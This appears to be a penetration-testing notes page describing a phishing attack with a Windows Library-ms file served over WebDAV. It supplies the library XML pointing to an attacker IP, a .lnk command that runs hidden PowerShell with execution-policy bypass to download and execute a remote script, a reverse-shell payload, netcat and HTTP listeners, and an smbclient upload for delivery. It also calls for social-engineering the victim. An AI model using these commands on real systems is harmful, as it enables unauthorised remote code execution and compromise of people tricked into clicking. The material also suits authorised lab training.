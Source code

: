 # Windows Library Files

## Explination

In the first stage, we'll use Windows library files to gain a foothold on the target system and set up the second stage. In the second stage, we'll use the foothold to provide an executable file that will start a reverse shell when double-clicked.

## Execution

First we need to install and setup a WebDAV share. We are using a WebDAV share over something like a simple http server so that it can be rendered in Windows explorer.

```bash
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

We will then create the file `config.Library-ms` with the following contents to open the WebDAV share remotely

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.1.18</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

Next we will create a `.lnk` file that will launch our reverse shell. Because `.lnk` files have restricted character lengths, we will use the following command as opposed to the usual base64 encoded payload. We can use the `PowerShell #3 (Base64)` reverse shell from [revshells](https://www.revshells.com/) and place it in the file `hehe.ps1`.

`hehe.ps1` on attack box

```powershell
powershell -e JABjAGwAaQBlAG4AdAA...
```

`automatic_configuration.lnk` path for target to click (more details can be found [here](../../11%20Windows/Windows%20Shells.md))

```powershell
powershell -nop -w hidden -noni -ep bypass -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.18:8000/hehe.ps1')"
```

Before sending the `.lnk` we can setup our listeners with the following commands in separate terminals

```bash
python3 -m http.server
```

```bash
rlwrap -cAr nc -lvnp 9001
```

We can then place the `.lnk` within our WebDAV directory, and send `config.Library-ms` to our target and social engineer them into opening `config.Libary-ms` and click on `automatic_configuration.lnk`

One way to do this is through uploading the library to a SMB server via `smbclient`

```bash
smbclient //192.168.1.195/share -c 'put config.Library-ms'
```
